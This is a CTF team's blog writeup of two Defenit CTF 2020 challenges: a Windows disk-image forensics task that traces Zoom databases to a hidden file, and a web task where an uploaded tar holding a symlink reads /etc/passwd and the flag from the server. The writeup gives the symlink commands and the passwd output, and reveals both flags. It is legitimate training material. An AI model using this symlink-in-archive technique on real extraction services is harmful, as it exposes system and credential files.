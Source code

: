 ```yaml
---
title: Defenit CTF 2020 Writeup
published: true
---
```


I played with CTF.SG last weekend and we achieved 10th in the rankings although we didn't even solve a single pwn!

---

# Find Tangential Cipher

#### Category: Forensics | 3 solves | 857 points

We first-blooded this challenge thanks to my teammate Kenneth!

We are given a [Google Drive link](https://drive.google.com/drive/folders/1oQYvJnbOou5TUXaV1ApoQnP6S_Vj8pbI) with 9 files, named `Evidence.E01-8` and `Evidence.E01.txt`. The total file size is about 12 GB, so please check the link (if it is still alive) if  you want to try the question.

From the txt file, we can figure out that it's a physical image of a Windows system.

Opening up the image for browsing, we are greeted with different volumes. 

![Volume Partitions](/assets/defenit-2020/forensics/find-tangential-cipher/vol-partitions.png)

We tried them in order, starting from the first Basic data partition (vol 4) and finding that it's got nothing interesting.

![Volume 4](/assets/defenit-2020/forensics/find-tangential-cipher/vol-4-partition.png)

Moving on to the next basic data partition on vol 7, we find something we're much more acquainted with - the `C:\` Drive Windows Filesystem!

![Volume 7](/assets/defenit-2020/forensics/find-tangential-cipher/vol-7-partition.png)

Browsing around, we started with Appdata, going down the Default (skeleton) user and all the way down to `/User/secre` which seems to be the main user on this machine. We find many files, but nothing too interesting - until we reached the end of Appdata. There was this Zoom database where the `firstName:lastName` of a user was `man:suspect`.

![Zoom-Man-Suspect](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-suspect-man.png)

We knew we were up to something now.

Moving on to the next db in the same folder, we found the message log in the first table of the db. As you can see in the image below, it goes like this:

![Zoom-Tangential-Hint](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-tangential-file.png)

```
Hello
Long Time No See
We're dealing with weapons
I want you to go to the meeting place and get it yourself.
The Tangential Cipher is in the File.
Then, I'll ask you.
```

The next db file only showed the xmpp id, so we skipped that. 

However, going back to the first db in the folder, in the `zoom_mm_file` table, we found a `url` column that looked suspiciously like the `objkey` in a Zoom download link. 

![Zoom-File-ID](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-file-id.png)

Putting that together into a link, we get a file shown below (I think `zfk` is my token so I'm not pasting the link here)

![Zoom-File-Binary](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-file-binary.png)

As the table mentioned that it was a `Secret.docx` file, we use `curl -o flag.docx <URL>` to download it and open it in Microsoft Word.

And we got the flag!

![Flag](/assets/defenit-2020/forensics/find-tangential-cipher/flag.png)


<details>
  <summary>FLAG</summary>
  
  Mr_K_1_W@nT_Cola!!
</details>


---

# Tar Analyzer

#### Category: Web | 278 points

#### Description     
Our developer built simple web server for analyzing tar file and extracting online. He said server is super safe. Is it?

#### Server     
http://tar-analyzer.ctf.defenit.kr:8080/

#### Attachments    
[tar-analyzer.tar.gz](//github.com/Isopach/CTF-Writeup/blob/master/Defenit-2020/Web/Tar-Analyzer/tar-analyzer.tar.gz)

------------------------

We found the unintended solution for this.

Using the symbolic link vector, a common zip file unpacking vulnerability, we first tried to read the `/etc/passwd`.

```
ln -s ../../../etc/passwd aaa
tar -cvf test.tar aaa
```

This returns the `/etc/passwd` on the server as follows.

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
analyzer:x:1000:1000:Linux User,,,:/home/analyzer:
```

Hence we tried to guess the filename, starting with the common `flag.txt`.


```
ln -s ../../../flag.txt aaa
tar -cvf test.tar aaa
```

And done! We got the flag just like that.

<details>
  <summary>FLAG</summary>
  
  Defenit{R4ce_C0nd1710N_74r_5L1P_w17H_Y4ML_Rce!}
</details>

